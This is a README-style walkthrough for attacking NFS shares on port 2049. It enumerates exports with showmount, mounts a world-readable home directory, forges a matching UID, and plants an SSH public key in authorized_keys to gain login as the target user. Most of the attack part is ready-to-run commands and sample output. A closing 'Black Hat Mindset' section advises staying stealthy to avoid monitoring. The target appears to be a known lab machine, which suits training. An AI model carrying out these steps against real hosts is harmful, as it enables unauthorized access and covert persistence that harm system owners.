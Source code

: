 # Basic Methodology - Port 2409 (NFS)

This README outlines a methodology for exploiting Network File System (NFS) services running on port 2049. The focus is on enumerating NFS shares, mounting remote directories, and exploiting weak permissions to gain unauthorized access, including SSH access via UID manipulation.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating NFS Shares](#enumerating-nfs-shares)
- [Mounting and Exploiting NFS Shares](#mounting-and-exploiting-nfs-shares)
- [Gaining SSH Access via UID Manipulation](#gaining-ssh-access-via-uid-manipulation)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

NFS, running on port 2049, allows remote systems to mount and access directories over a network. Misconfigured NFS shares, especially those with overly permissive export settings (e.g., allowing access to `*`), are prime targets for exploitation. This guide covers enumerating NFS shares, mounting them, and exploiting weak permissions to gain SSH access by manipulating user IDs (UIDs).

## Setup and Prerequisites

To begin, ensure the following:

### Environment
- A Linux host (e.g., Kali Linux) with network access to the target NFS server.

### Tools
- Install NFS client tools (e.g., `sudo apt install nfs-common` on Debian-based systems).
- Ensure `showmount`, `mount`, and SSH tools are available.

### Requirements
- Target Information: Obtain the target IP address (e.g., `192.168.1.132`).
- Privileges: Root access on the attacking machine to create users and manipulate UIDs.

## Enumerating NFS Shares

Use `showmount` to gather information about the NFS server's shares.

### Commands

**List All Mount Points:**
```bash
showmount -a 192.168.1.132
```
Displays all clients currently mounting shares from the NFS server.

**List Available Directories:**
```bash
showmount -d 192.168.1.132
```
Shows directories available for mounting.

**List Export List:**
```bash
showmount -e 192.168.1.132
```

Example Output:
```
Export list for 192.168.1.132:
/home/vulnix *
```
Indicates the `/home/vulnix` directory is exported with universal access (`*`).

### Notes
- Look for exports with permissive settings (e.g., `*` or `no_root_squash`), which allow unauthorized access or root privilege retention.
- Use nmap with NFS scripts (e.g., `nmap --script nfs* 192.168.1.132`) for additional enumeration.

## Mounting and Exploiting NFS Shares

Mount the remote NFS share to interact with its filesystem.

### Commands

**Create a Local Mount Point:**
```bash
mkdir -p /mnt/vulnix
```

**Mount the NFS Share:**
```bash
mount -t nfs 192.168.1.132:/home/vulnix /mnt/vulnix
```

**Test Permissions:**
```bash
mkdir -p /mnt/vulnix/.ssh
```
- If permission is denied, proceed with UID manipulation (next section).
- If successful, the share allows write access, enabling further exploitation.

### Notes
- Ensure the NFS share is mounted correctly (`df -h` to verify).
- Permissive exports may allow direct modification of sensitive directories (e.g., `.ssh`).

## Gaining SSH Access via UID Manipulation

Exploit NFS share access to create an SSH backdoor by matching the target user's UID.

### Steps

1. **Create a Local User with Matching UID:**
   ```bash
   # Assume the target user vulnix has a UID of 2008 (discover via enumeration or trial)
   sudo useradd -u 2008 vulnix
   ```

2. **Switch to the Local vulnix User and Create .ssh Directory:**
   ```bash
   su vulnix
   cd /mnt/vulnix
   mkdir .ssh
   ```

3. **Generate SSH Key Pair as Root:**
   ```bash
   su root
   ssh-keygen
   cat /root/.ssh/id_rsa.pub
   ```
   Copy the public key (e.g., `ssh-rsa AAAAB3NzaC1yc2E...`).

4. **Add Public Key to authorized_keys as vulnix:**
   ```bash
   su vulnix
   cd /mnt/vulnix/.ssh
   echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1rYFvo6Wh4j44p4s6WfDYb637m62zA0CwE5t9K6iKbosZMpeDBGP2q8C2O3yw2P9Dhv3jRPCutf1ruadaMxxiOY8Ook/3fwMcaueCAs0ThKCMRlnf0yzUnEHH7t82MrEghMnL4GfUcYlxIwo8d5jQe7umuJneYK786iDNEPaEajC45GQlrZWCzIWqs3B3vJBQ4FR766EHsmiKVWvQ35uR69/O39IePJQ8oSTF+PK0RoCtvmYt44jeqUO0NfYGeCGwqtYW/i+ILTOkW45bYRVjhmrJ2C+yjtK3bsmDiq28IT9STCFlkI7OqEfJkeYqBSJVqVqOkFFvx4+7fyTpchT/" > authorized_keys
   ```

5. **Log in via SSH as Root:**
   ```bash
   su root
   ssh vulnix@192.168.1.132
   ```
   The SSH server recognizes the authorized_keys file, granting access as the vulnix user.

### Notes
- UID matching is key; NFS trusts the client's UID, allowing local user manipulation to impersonate target users.
- Ensure the `.ssh` directory and `authorized_keys` file have correct permissions (e.g., 700 for `.ssh`, 600 for `authorized_keys`).
- If SSH access fails, verify the NFS share's write permissions and the target user's UID.

## Black Hat Mindset

To exploit NFS effectively, think like an attacker:

- **Target Misconfigurations**: Focus on NFS exports with `*` or `no_root_squash`, which allow broad access or privilege escalation.
- **Enumerate Thoroughly**: Use `showmount` and NSE scripts to identify all accessible shares and their permissions.
- **Exploit UID Weaknesses**: Manipulate local UIDs to impersonate target users and gain access to their home directories.
- **Stay Stealthy**: Minimize filesystem changes and SSH login attempts to avoid detection by monitoring systems.

## Resources

- [NFS Documentation](https://nfs.sourceforge.net/)
- [showmount Manual](https://linux.die.net/man/8/showmount)
- [NFS Security Best Practices](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/8/html/managing_file_systems/securing-nfs_managing-file-systems)
- [NFS Enumeration with Nmap](https://nmap.org/nsedoc/scripts/nfs-ls.html)

